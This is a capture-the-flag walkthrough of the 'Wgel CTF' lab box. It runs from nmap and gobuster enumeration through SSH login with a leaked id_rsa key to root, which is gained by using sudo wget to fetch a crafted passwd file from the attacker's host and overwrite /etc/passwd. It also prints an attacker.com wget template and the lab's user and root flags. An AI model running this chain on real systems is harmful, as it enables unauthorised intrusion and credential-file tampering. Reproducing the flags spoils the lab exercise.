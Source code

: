
---

## Wgel CTF

IP = `10.10.59.7`

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster

`gobuster dir -u 10.10.59.7 -w /usr/share/dirb/wordlists/common.txt -o gobuster.txt`

```
/.hta                 (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 275]
/sitemap              (Status: 301) [Size: 310] [--> http://10.10.59.7/sitemap/]
```

`gobuster dir -u 10.10.59.7/sitemap -w /usr/share/dirb/wordlists/common.txt -o gobuster.txt`

```
/.hta                 (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.ssh                 (Status: 301) [Size: 315] [--> http://10.10.59.7/sitemap/.ssh/]
/css                  (Status: 301) [Size: 314] [--> http://10.10.59.7/sitemap/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.10.59.7/sitemap/fonts/]
/images               (Status: 301) [Size: 317] [--> http://10.10.59.7/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 313] [--> http://10.10.59.7/sitemap/js/]
```

There is an `id_rsa`  file in `http://10.10.59.7/sitemap/.ssh/`

in `view-source:http://10.10.59.7/` we can find
```
--SNIP--
<!-- Jessie don't forget to udate the webiste -->
--SNIP--
```

##### Found Username

`Jessie`

we already have id_rsa, with these two we can login into ssh.

### Initial Foothold

```
# ssh -i id_rsa jessie@10.10.59.7
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$
```

Got User!


**User_flag.txt**

from `/home/jessie/Documents` directory,

`057c67131c3d5e42dd5cd3075b198ff6`

### Privilege Escalation

`sudo -l`

```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```


with wget we can download and upload files.
with sudo privilege we can download and upload files in `/` directory.


```
jessie@CorpOne:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
--SNIP--
```

copy `/etc/passwd` to attackers machine.

Note:
```
crypt()_ and Encryption Algorithms[]

(https://www.baeldung.com/linux/shadow-passwords#3-crypt-and-encryption-algorithms)

There are many algorithms for encryption. Which one _/etc/shadow_ uses depends on several factors.

Usually, the default encryption algorithm can be read or defined via the _ENCRYPT_METHOD_ variable of [_/etc/login.defs_](https://man7.org/linux/man-pages/man5/login.defs.5.html). Alternatively, we can use the _pam_unix.so_ pluggable authentication module (PAM) and change the default hashing algorithm via _/etc/pam.d/common-password_.

Another consideration is the presence and version of [_glibc_](https://www.baeldung.com/linux/multiple-glibc). In fact, **[_crypt()_](http://man7.org/linux/man-pages/man3/crypt.3.html), as the main password encryption function, leverages _glibc_**. By default, it uses the insecure Data Encryption Standard (DES), but depending on the second argument, we can employ [many others](https://manpages.debian.org/testing/libcrypt-dev/crypt.5.en.html).

Essentially, the initial characters of the password field value in _/etc/shadow_ identify the encryption algorithm:

- _$1$_ is Message Digest 5 (MD5)
- _$2a$_ is _blowfish_
- _$5$_ is 256-bit Secure Hash Algorithm (SHA-256)
- _$6$_ is 512-bit Secure Hash Algorithm (SHA-512)
- _$y$_ (or _$7$_) is _yescrypt_
- none of the above means DES

Critically, as of this writing, **_yescrypt_ with its contest entry _yescrypt v2_ and [current specification](https://github.com/openwall/yescrypt/blob/main/README), is widely-adopted and the default password hashing scheme for many recent versions of major distributions** like Debian 11, Fedora 35+, Kali Linux 2021.1+, and Ubuntu 22.04+. Further, it’s supported on Fedora 29+ and RHEL 9+. Still, many standard tools still don’t support _yescrypt_.

In all cases except DES, the whole format of the field becomes more complex:

$id$param$salt$encrypted

Of these dollar-delimited subfields, we already explored _id_. The _param_ field can contain options for algorithms that support them.

Finally, a **[_salt_](https://www.baeldung.com/cs/simple-hashing-vs-salted-hashing#salted-hashing) in the password encryption context is a random supplemental value used when going through the process of hashing**. Its main idea is to introduce complexity beyond that of a regular human to reduce the odds of a successful cracking.
```

let's change the password of root to `password`
we can done encryption using https://www.dcode.fr/crypt-hashing-function.

![[crypt-function.png]]

output :
`$6$$bLTg4cpho8PIUrjfsE7qlU08Qx2UEfw..xOc6I1wpGVtyVYToGrr7BzRdAAnEr5lYFr1Z9WcCf1xNZ1HG9qFW1`

lets paste this hash into downloaded passwd file as

```
root:$6$$bLTg4cpho8PIUrjfsE7qlU08Qx2UEfw..xOc6I1wpGVtyVYToGrr7BzRdAAnEr5lYFr1Z9WcCf1xNZ1HG9qFW1:0:0:root:/root:/bin/bash
--SNIP--
```

Then, lets upload this into victim's machine

```
URL=http://attacker.com/file_to_get
LFILE=file_to_save
wget $URL -O $LFILE
```

```
jessie@CorpOne:~$ sudo wget http://10.6.101.54:8000/passwd -O /etc/passwd
--2024-08-14 07:45:09--  http://10.6.101.54:8000/passwd
Connecting to 10.6.101.54:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2383 (2,3K) [application/octet-stream]
Saving to: ‘/etc/passwd’

/etc/passwd             100%[==============================>]   2,33K  --.-KB/s    in 0s

2024-08-14 07:45:09 (6,31 MB/s) - ‘/etc/passwd’ saved [2383/2383]

jessie@CorpOne:~$
```

successfully downloaded into victim's machine.

```
jessie@CorpOne:~$ su root
Password:
root@CorpOne:/home/jessie#
```

Got Root!

**root_flag**

`b1b968b37519ad1daa6408188649263d`